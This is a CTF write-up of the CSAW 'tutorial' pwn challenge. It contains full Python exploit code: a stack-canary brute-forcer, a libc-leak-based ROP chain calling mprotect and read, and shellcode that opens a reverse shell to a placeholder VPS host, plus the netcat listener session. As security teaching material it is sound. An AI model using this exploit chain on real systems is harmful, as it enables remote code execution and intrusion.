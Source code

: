 ### Solved by superkojiman and Swappage

I started late in the competition and Swappage asked me to work on this with him. So off we went. I started off with reversing the challenge. We were provided with a 64-bit binary called tutorial with NX and stack-smashing protection on, as well as a copy of the target's libc. The tutorial binary itself presents a menu system with three options. After a bit of reversing, I came to the following conclusion:

* A user called tutorial needs to exist on the system. 
* tutorial takes on argument; the port to listen on. 
* Option 1 on the menu would leak an address. This was puts() - 1280 bytes.
* Option 2 would read in 460 bytes into a 300 byte buffer. Obvious overflow here.

So the vulnerability was obvious. Reading 460 bytes into a 300 byte buffer would overwrite the saved return pointer. The problem was there was a canary, and overwriting it with the wrong value would just trigger a stack-smashing protection error. So we did it the hardway by bruteforcing the canary, which was at offset 312 bytes of the buffer. I hacked together the following code, which was flaky, but worked for our purposes.  

```
#!/usr/bin/env python

from pwn import *
import time, sys

canary = ""
canary_offset = 312;
buf = ""
buf += "A" * canary_offset
buf += canary
guess = 0x00
addr = sys.argv[1]

while len(canary) < 8:
    r = remote(addr, 8002)
    r.recv()
    r.send("2")                     # try exploit

    # try to guess correct canary
    while guess !=  0xff:
        d = r.recv()                    # prompt for exploit
        r.send(buf + chr(guess))

        d1 = r.recv()
        d2 = r.recv()                    # get reply. if "Tutorial" in reply, we guessed correct


        if "Tutorial" in d2:
            print "guessed correct byte:", chr(guess)
            canary += chr(guess)
            buf += chr(guess)
            guess = 0x0
            r.send("2")
        else:
            # incorrect
            guess += 0x1
            break

print "guessed canary:"
print hexdump(canary)

print "buf:"
print hexdump(buf)
```

We found out later that it wasn't necessary to brute-force the canary. Oh well. In any case, since the canary wouldn't change, we just needed to get it once and we could focus on the exploitation. 

We were given a copy of the target's libc, so I uploaded it into [ROPshell](http://www.ropshell.com/ropsearch?h=a1b6d943c8041d7da285be5916523014) to get offsets to the gadgets I'd need to create a ROP chain. However, to make use of them, I'd need to get the libc base address. This was easy because option 1 leaked the address of puts() - 1280 bytes. So to get libc's base address:

* Leak the address using option 1
* Add 1280 bytes to the address. Now we have the address of puts()
* Find puts()'s offset from the provided libc: `readelf -s libc-2.19.so | grep -w puts`
* Subtract the offset from the address of puts() to get libc's base address. 

Once I had the address, I just needed offsets to the gadgets I wanted to use. In this case, I needed `pop rdi`, `pop rsi`, and `pop rdx`, because my plan was to call mprotect() on a known memory location to make it read/write/executable, then call read() to read in my shellcode into that memory location, and finally, just return to it and execute my shellcode. Here's the final exploit:

```
#!/usr/bin/env python

from pwn import *
context(os="linux", arch="amd64")

# server
leak = 0x7f60e48eb860
puts_addr = leak + 1280
puts_offset = 0x00000000006fd60
libc_base = puts_addr - puts_offset
mprotect_offset = 0x0000000000f48d0
mprotect_addr = p64(libc_base + mprotect_offset)
read_offset = 0x0000000000eb6a0
read_addr = p64(libc_base + read_offset)
pop_rdi = p64(libc_base + 0x00022b9a)
pop_rsi = p64(libc_base + 0x00024885)
pop_rdx = p64(libc_base + 0x000bcdf0)
canary = p64(0xbad86d7361e80200)
r = remote("pwn.chal.csaw.io", 8002)

print "libc_base:", hexdump(p64(libc_base))
print "pop rdi:", hexdump(pop_rdi)
print "mprotect_addr:", hexdump(mprotect_addr)
print "read_addr:", hexdump(read_addr)

buf = ""
buf += "A"*312
buf += canary
buf += "B"*8        # saved frame ptr

# mprotect()
buf += pop_rdi
buf += p64(0x00602000)      # addr to make rwx
buf += pop_rsi
buf += p64(1024)
buf += pop_rdx
buf += p64(0x7)
buf += mprotect_addr

# read()
buf += pop_rdi
buf += p64(0x4)             # sockfd
buf += pop_rsi
buf += p64(0x00602000)      # addr to make rwx
buf += pop_rdx
buf += p64(1024)
buf += read_addr

buf += p64(0x00602000)      # return to shellcode

print r.recv()
r.send("2")
print r.recv()

print "sending buf len", len(buf)
r.send(buf)

print "enter to send shellcode"
raw_input()

sc = ""
sc += "\x90"*16
sc += asm(shellcraft.linux.connect("your.vps.ip", 9999))
sc += asm(shellcraft.linux.dupsh())

# send shellcode
r.send(sc)
```

I ran the code and waited for a reverse shell to connect to my listener on my VPS:

```
$ ./own.py
[+] Opening connection to pwn.chal.csaw.io on port 8002: Done
-Tutorial-

1.Manual
2.Practice
3.Quit
>
sending buf len 448
enter to send shellcode

[*] Closed connection to pwn.chal.csaw.io port 8002
```

On on my VPS, I got the shell, and the flag:

```
me@vps:~$ nc -lvp 9999
listening on [any] 9999 ...
connect to [x.x.x.x] from (UNKNOWN) [216.165.2.35] 49998
id
uid=1000(tutorial) gid=1000(tutorial) groups=1000(tutorial)
uname -a
Linux 9c7e30ba54b6 4.4.0-36-generic #55-Ubuntu SMP Thu Aug 11 18:01:55 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
ls
flag.txt
tutorial
tutorial.c
cat flag.txt
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
